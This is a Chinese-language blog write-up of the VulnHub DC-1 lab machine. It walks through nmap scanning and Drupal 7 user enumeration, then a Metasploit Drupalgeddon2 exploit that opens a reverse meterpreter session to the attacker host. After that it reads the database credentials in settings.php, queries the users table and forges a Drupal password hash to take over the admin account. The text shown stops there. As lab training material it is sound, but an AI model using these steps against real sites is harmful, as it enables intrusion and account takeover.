+++
title = "VulnHub DC-1 靶机渗透笔记"
date = 2026-11-21T19:00:00+08:00
draft = false
tags = ["VulnHub", "DC-1", "渗透测试"]
categories = ["渗透测试"]
summary = "VulnHub DC-1 通关记录：Drupal 7 用户枚举、Drupalgeddon2 拿 shell、修改 admin 密码、清 flood 表、SUID find 提权，拿到最终 flag。"
ShowToc = true
TocOpen = false
+++

> 环境：VMware Workstation · 靶机：VulnHub DC-1（192.168.72.129）｜ 攻击机：Kali Linux（192.168.72.128）｜ 目标：从 Web 入口拿到 shell 并提权到 root

## 写在前面

DC-1 是一台 Debian 7 + Drupal 7 的入门靶机。这篇按实际操作顺序记录：信息收集 → Drupal 用户枚举 → 爆破被拦 → Drupalgeddon2 拿 shell → 读配置文件和数据库 → 改 admin 密码登录后台 → SUID `find` 提权。

## Flag 清单

| Flag | 位置 | 说明 |
|---|---|---|
| flag1 | `/var/www/flag1.txt` | Web 根目录，提示找 CMS 配置文件 |
| flag2 | `/var/www/sites/default/settings.php` | 配置文件注释，同时泄露数据库凭据 |
| flag3 | Drupal 后台 Content | `flag3` 页面，提示 SUID 和 `find` |
| final | `/root/thefinalflag.txt` | 最终 flag |

## 1. 信息收集

先把 Kali 和 DC-1 的网络模式都设为 NAT，保证两台机器在同一网段。用 nmap 的 ping 扫描找存活主机：

```bash
nmap -sn 192.168.72.0/24
```



`192.168.72.129` 的 MAC 前缀是 `00:0C:29`，属于 VMware 虚拟机，基本就是靶机。对它做完整扫描：

```bash
nmap -O -sV -A 192.168.72.129
```



开放端口：

- `22/tcp` SSH，OpenSSH 6.0p1 Debian
- `80/tcp` Apache 2.2.22（Debian）
- `111/tcp` rpcbind

80 端口的 `http-generator` 是 `Drupal 7`，`robots.txt` 里还能看到 `/includes`、`/misc`、`/modules`、`/profiles`、`/scripts`、`/themes` 等目录。

## 2. Drupal 用户枚举与登录限制

访问 `http://192.168.72.129/`，是一个 Drupal 站点。

在「Request new password」页面输入一个不存在的用户名：



提示 `Sorry, 3 is not recognized as a user name or an e-mail address.`。

再输入 `admin`：



提示 `Further instructions have been sent to your e-mail address.`。

两种情况回显不同，可以枚举用户名，由此确认 `admin` 用户存在。

顺手对登录页尝试爆破，很快就触发了 Drupal 7 的 flood 限制：



提示 `Sorry, too many failed login attempts from your IP address. This IP address is temporarily blocked.`。这个限制先从 IP 层面拦住了登录，后面会进数据库清掉。

## 3. Drupalgeddon2 拿 shell 与 flag1

查看页面源码，`meta generator` 显示 Drupal 7：



在 `msfconsole` 里搜索 drupal，使用 Drupalgeddon2 模块：

```bash
msfconsole
search drupal
use exploit/unix/webapp/drupal_drupalgeddon2
```



查看模块信息，确认目标类型和 payload：



设置参数后发起攻击：

```bash
set RHOSTS 192.168.72.129
set LHOST 192.168.72.128
set LPORT 4444
run
```



成功拿到 meterpreter session。当前目录就是 Drupal 的站点根目录 `/var/www`，直接读 flag1：

```bash
cat flag1.txt
```



```text
Every good CMS needs a config file - and so do you.
```

## 4. 配置文件与数据库凭据（flag2）

按提示找 CMS 配置文件。DC-1 是 Debian 7，Apache 的站点根目录是 `/var/www`（不是 `/var/www/html`），配置文件在 `/var/www/sites/default/settings.php`：

```bash
cd /var/www/sites/default
cat settings.php
```



文件开头就是 flag2，以及数据库账号密码：

```php
// flag2
// Brute force and dictionary attacks aren't the only ways to gain access
// (and you WILL need access).
// What can you do with these credentials?

'database' => 'drupaldb',
'username' => 'dbuser',
'password' => 'R0ck3t',
```

## 5. 登录 MySQL 查用户哈希

meterpreter 自带的 shell 不太好用，先升级成交互式 shell，再登录 MySQL：

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
mysql -u dbuser -p
# 密码输入 R0ck3t
```



先看库里的表：

```sql
select table_name from information_schema.tables where table_schema='drupaldb';
```



重点看 `users` 表：

```sql
select * from users;
```



`admin` 的密码是 `$S$...` 形式的哈希，不能直接拿来登录，需要先搞清楚 Drupal 7 的密码哈希规则。

## 6. 生成 Drupal 7 密码哈希

Drupal 根目录下有个生成密码哈希的脚本：

```bash
find ./ -name *hash*
```



找到 `./scripts/password-hash.sh`，打开可以看到它 include 了 `/includes/password.inc`，并调用 `user_hash_password()`：



该函数定义在 `password.inc` 里：

```php
function user_hash_password($password, $count_log2 = 0) {
  if (empty($count_log2)) {
    $count_log2 = variable_get('password_count_log2', DRUPAL_HASH_COUNT);
  }
  return _password_crypt('sha512', $password, _password_generate_salt($count_log2));
}
```



Drupal 7 的密码格式是：

```text
$S$ + 迭代次数字符 + 8 位随机盐 + 43 位哈希
```

盐是随机生成并保存在哈希字符串里的，`user_check_password()` 校验时会从存储的哈希里解析出盐，所以只要生成一个合法哈希写进数据库，就能用对应的明文登录。

把 `password.inc` 复制到自己的 PHP 环境里，直接调用 `_password_crypt('sha512', 'asd', '$S$Asdasdasd')` 生成哈希。为了本地验证，把 `user_check_password()` 改成直接接收哈希字符串（原本接收 `$account` 对象）：



生成并校验：



输出：

```text
$S$AsdasdasdUiscEUUcLwP50e2asylZgxjGGELANslojebAw/BwBjt
```

